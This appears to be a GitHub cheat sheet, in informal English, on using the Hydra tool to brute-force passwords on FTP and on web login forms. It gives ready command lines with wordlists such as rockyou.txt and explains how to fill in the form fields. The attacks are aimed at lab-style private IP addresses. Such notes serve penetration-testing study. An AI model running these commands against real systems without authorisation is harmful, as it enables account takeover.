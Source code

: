 # Hydra to BRUTE FORCING
                  
# ------------------- H Y D R A ------------------- 

## hydra is powerfull Brute forcing tools. 

### Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP

```bash
$ hydra -l user -P passlist.txt ftp://192.168.1.1 -V -t 5
```
* ```hydra``` toolname ```-l``` username ```-P``` wordlist of password ```<<service>>```://<```Machin ip```> ```-V``` veerbos ```-t 4``` there will be four threads running in parallel -t 4
* ```hydra``` ```-L``` wordlists/path/for/username/brute-force ```-P``` wordlist/path/for/password/brute-force ```service-type```://```ip``` ```-V``` ```-t 4```
 
# POST WEB FORM -For login forms.
```bash
# sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"
```
  * [```-l``` user] [```-p``` passwd] ```10.101.0.1``` ```http-post-form``` ```"/admin/login.php:username=^USER^&password=^PASS^:F=incorrect"``` ```-V```
```bash
$ hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

* The login page is only (/), i.e., the main IP address.      example: 10.101.0.1/login.php    
* The (username) is the form field where the username is entered   check in html sheet 
* The specified username(s) will replace (^USER^)                          _
* The password is the form field where the (password) is entered           _
* The provided passwords will be replacing (^PASS^)                        _
* Finally, (F=incorrect) is a string that appears in the server reply when the login fails.  check login-page if u enter worng msg.
```bash
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.139.35  http-post-form "/admin/index.php:user=^USER^&pass=^PASS^&submit=LOGIN:Username or password invalid" -V -t 4

```
#### hydra [user]  [pass]                                [ip]            [login page]  "[path of page]:[inp class]"&[inp class]"&[btn class=btn name]:[its incorrect msg ]
```bash
$ hydra -l username -P wordlist.txt 192.168.1.1 http-post-form "/path:input-class-for-user=^USER^&input-class-for-passwd=^PASS^&button-class-for-submit-page=button-name:invalid

```
 ```hydra```  username password  ip service                (here hydra put username)  (here hydra put username)   (here hydra tap on login button)  : (if it incorrect show msg)
 ____________________________________________________________________________________________________________________________________________________________________________________________
                                             
